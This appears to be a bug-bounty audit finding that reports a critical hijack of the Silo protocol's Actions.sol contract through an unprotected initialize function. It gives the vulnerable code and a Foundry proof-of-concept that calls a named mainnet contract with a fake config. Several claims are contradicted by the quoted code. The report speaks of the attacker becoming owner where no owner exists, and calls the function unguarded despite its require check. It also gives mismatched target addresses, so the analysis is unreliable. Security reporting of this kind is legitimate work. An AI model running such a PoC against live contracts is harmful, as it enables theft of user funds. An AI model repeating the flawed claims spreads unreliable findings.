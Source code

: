 ## [C-01] Contract hijack via unprotected initialize in Actions.sol


_Severity_ Critical

_Target:_ https://sonicscan.org/address/0x435Ab368F5fCCcc71554f4A8ac5F5b922bC4Dc06?utm_source=immunefi#code#F10#L43-53





### Summary:

Actions.sol acts as middleware in silo protocol, meaning if a user calls deposit or withdraw from silo.sol, the silo.sol will make an external call to Actions.sol, this contract handles multiple tasks such as:

accrueInterest, reentrancy protection, hook receiver, shareToken and asset addresses, interacts with vaults that change the storage.



### Description:

After deep manual reviews i found out that the  attacker can get access and hijack the Actions.sol via calling initialize with malicious Config, fake hook receiver, shareToken and asset addresses, because the initialize function is unprotected, it lacks onlyOwner or initializer from openzepplin, because of that, anyone can call it and hijack the contract.

Furthermore, the silo's admin forgot to call initialize manually and it was not called in silo.sol constructor.

```solidity
// Actions.sol
@audit-bug-->  function initialize(ISiloConfig _siloConfig) external returns (address hookReceiver) { // ⚠️ BUG: Missing onlyOwner/initializer
        IShareToken.ShareTokenStorage storage _sharedStorage = ShareTokenLib.getShareTokenStorage();

        require(address(_sharedStorage.siloConfig) == address(0), ISilo.SiloInitialized());

        ISiloConfig.ConfigData memory configData = _siloConfig.getConfig(address(this));

        _sharedStorage.siloConfig = _siloConfig;

        return configData.hookReceiver;
    }
```




### Impact:

- Attacker can fully hijack the Actions.sol contract by calling initialize() with malicious config.

- The attacker can point hookReceiver, shareToken, and other vault interactions to addresses under their control.

- This allows arbitrary logic injection into protocol flows, including vault draining and disabling of reentrancy protection.

- Once hijacked, the protocol team cannot reclaim the contract, leading to permanent loss of control and user funds.




### Proof of Concept (POC)

The below PoC shows how an attacker called initialize function with malicious siloConfig, fake hook receiver, shareToken and asset addresses, finally the attacker became the owner of the Actions.sol contract.


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import "forge-std/Test.sol";

... existing code ...

contract FakeSiloConfig is ISiloConfig {
    function getConfig(address) external pure override returns (ConfigData memory) {
        return ConfigData({
            hookReceiver: address(0x90581aFC83520a649376852166B3df92153cEE20),  // You can put any address
            silo: address(0x39AA39c021dfbaE8faC545936693aC917d5E7563)  // put any address
        });
    }
}

contract SiloActionsInitialize is Test {
    address constant ACTIONS = 0x1F13CcDBd7cB2021e499D23478Dc292d48211c04; // Actions.sol mainnet address

    FakeSiloConfig fakeConfig;

    function setUp() public {
        vm.createSelectFork(vm.envString("SONIC_RPC_URL"), 34402746);

        fakeConfig = new FakeSiloConfig();
    }

    function test_Initialize() public {
       
        (bool success, bytes memory data) = ACTIONS.call(
            abi.encodeWithSelector(
                IActions.initialize.selector,
                fakeConfig
            )
        );
        require(success, string(data));
    }
}
```


### Output:


![PoC](https://github.com/user-attachments/assets/4c00c21a-3354-460d-9e61-5e8fd69fcc0c)
